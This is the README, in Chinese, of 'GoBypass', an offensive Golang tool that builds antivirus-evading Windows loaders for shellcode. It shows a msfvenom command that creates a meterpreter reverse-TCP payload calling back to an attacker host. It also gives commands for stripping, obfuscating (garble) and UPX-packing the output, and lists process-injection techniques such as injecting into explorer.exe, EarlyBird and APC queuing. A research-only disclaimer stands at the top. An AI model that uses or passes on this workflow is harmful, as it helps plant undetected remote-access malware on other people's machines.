 # GoBypass

### 免责声明

该工具仅用于安全研究，禁止使用工具发起非法攻击等违法行为，造成的后果使用者负责

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

不懂二进制和免杀，只是搬运工，借鉴大佬的代码自己造轮子

![LOGO](/img/logo.png)

### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

（无需过多处理，内部会对ShellCode进行编码）

### 生成免杀马

在生成免杀马之前请注意以下三件事

1. 确保安装`Golang`且环境变量中包含`go`否则无法编译
2. 请在当前目录执行先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`

一切就绪后就可以开始生成了

示例：

1. 使用`CreateThread`模块并删除编译信息：`go run main.go -m CreateThread -d`
2. 删除编译信息且用`garble`混淆源码后编译：`go run main.go -m CreateThread -d -g`
3. 编译后的可执行文件进行`upx`加壳：`go run main.go -m CreateThread -d -g -u`

可选参数如下

| 参数  |                参数说明                 |  参数类型  | 是否必须 |
|:---:|:-----------------------------------:|:------:|:----:|
| -m  |                使用模块                 | string |  是   |
| -s  |    shellcode文件（默认shellcode.txt）     | string |  否   |
| -d  |         使用ldflags -s -w进行编译         |  bool  |  否   |
| -r  |     使用竞态检测器-race进行编译（可能提高免杀效果）      |  bool  |  否   |
| -w  | 隐藏窗口ldflags -H windowsgui（可能降低免杀效果） |  bool  |  否   |
| -u  |           最终生成的exe进行UPX加壳           |  bool  |  否   |
| -g  |        使用garble进行编译（对源码进行混淆）        |  bool  |  否   |
| -h  |               查看帮助信息                |  bool  |  否   |

其中必须的模块参数如下

| 模块名                      | 简介                                                              |
|:-------------------------|:----------------------------------------------------------------|
| CreateFiber              | 利用Windows CreateFiber函数执行ShellCode                              |
| CreateProcess            | 利用Windows CreateProcess函数在挂起状态下创建进程                             |
| CreateRemoteThread       | 利用Windows CreateRemoteThread函数在远程进程中执行ShellCode（注入explorer.exe） | 
| CreateRemoteThreadNative | 和上一条区别在于使用更底层的方式（注入explorer.exe）                                |
| CreateThread             | 利用Windows CreateThread函数执行ShellCode                             |
| CreateThreadNative       | 和上一条区别在于使用更底层的方式                                                |
| CryptProtectMemory       | 利用Windows dpapi.h CryptProtectMemory函数执行ShellCode               |
| CryptUnprotectMemory     | 利用Windows dpapi.h CryptUnprotectMemory函数执行ShellCode             |
| EarlyBird                | 注入的代码在进程主线程的入口点之前运行                                             |
| EtwpCreateEtwThread      | 利用Windows EtwpCreateEtwThread函数在进程中执行ShellCode                  |
| HeapAlloc                | 创建一个可供调用进程使用的堆并分配内存写入ShellCode                                  |
| NtQueueApcThreadEx       | 在当前进程的当前线程中创建一个特殊用户APC来执行ShellCode                              |
| RtlCreateUserThread      | 利用Windows RtlCreateUserThread函数执行ShellCode（注入explorer.exe）      |
| UuidFromStringA          | 利用Windows UuidFromStringA函数将ShellCode加载到内存地址并执行                 |

### 参考

尤其感谢`Safe6Sec`师傅的项目

- https://github.com/safe6Sec/GolangBypassAV
- https://github.com/Ne0nd0g/go-shellcode